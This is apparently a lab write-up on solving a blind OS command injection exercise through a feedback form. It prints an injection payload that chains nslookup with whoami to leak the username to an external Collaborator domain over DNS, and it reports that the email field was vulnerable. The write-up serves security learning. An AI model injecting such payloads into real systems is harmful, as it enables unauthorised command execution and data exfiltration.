 *This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. *

Submitted a feedback and sent the request from *Proxy* to *Repeater*. 

I decided to inject a payload to perform a DNS lookup and output the contents of `whoami` to the *Collaborator* server. My payload is as such:
`|| nslookup `whoami.`67bxhm1wtd0hs2mjsw8qghrfp6vxjn7c.oastify.com &`
I URL encoded the payload and injected it at each client input, checking the polls in *Collaborator*:
![Screenshot 2024-05-09 at 1.26.38 PM](images/Screenshot%202024-05-09%20at%201.26.38%20PM.png)
Injecting the payload at the `email` input triggered a DNS lookup as seen below, solving the lab!
![Screenshot 2024-05-09 at 1.28.03 PM](images/Screenshot%202024-05-09%20at%201.28.03%20PM.png)
